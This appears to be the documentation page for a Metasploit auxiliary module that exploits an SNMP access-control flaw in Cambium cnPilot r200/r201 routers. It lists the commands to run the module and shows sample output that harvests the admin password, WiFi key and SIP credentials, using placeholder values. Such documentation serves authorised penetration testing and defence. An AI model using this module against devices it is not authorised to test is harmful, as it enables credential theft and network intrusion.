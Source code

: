 Cambium cnPilot r200/r201 devices can be administered using SNMP. The device configuration contains IP addresses, keys, passwords, & lots of juicy information. This module exploits an access control flaw, which allows remotely extracting sensitive information such as account passwords, WiFI PSK, & SIP credentials via SNMP Read-Only (RO) community string.

## Verification Steps

1. Do: ```use auxiliary/scanner/snmp/cnpilot_r_snmp_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set COMMUNITY public```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/snmp/cnpilot_r_snmp_loot
msf auxiliary(cnpilot_r_snmp_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_snmp_loot) > run

[+] 1.3.3.7, Connected.

[*] Fetching System Information...

[+] SNMP System Name: cnPilot R200P
[+] SNMP System Description: cnPilot R200P 4.3.1-R1
[+] Device UpTime: 666 days, 00:66:60.00
[+] Hardware version: V1.3
[+] Firmware version: 4.3.1-R1(201612201723)

[*] Fetching Login Account Information...

[+] Web Management Admin Login Name: admin
[+] Web Management Admin Login Password: S3cr3t

[*] Fetching SNMP Information...

[+] SNMP read-only community name: public
[+] SNMP read-write community name: private
[+] SNMP Trap Community: trap
[+] SNMP Trap Server IP Address: 

[*] Fetching WIFI Information...

[+] Wireless Interface SSID: wifi_ssid
[+] Wireless Interface Encryption Key: wifi_secret_key
[+] Wireless Interface Encryption (1 - Open mode, 2 - wpa2 mode, 3 - EAP-TTLS): WPA2PSK 

[*] Fetching SIP Account Information...

[+] SIP Account Number: 123456789
[+] SIP Account Password: 123456789

[+] Cambium cnPilot SNMP loot saved at /root/.msf4/loot/20000000000003_default_1.3.3.7_cambium_cnpilot__12345.txt

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```

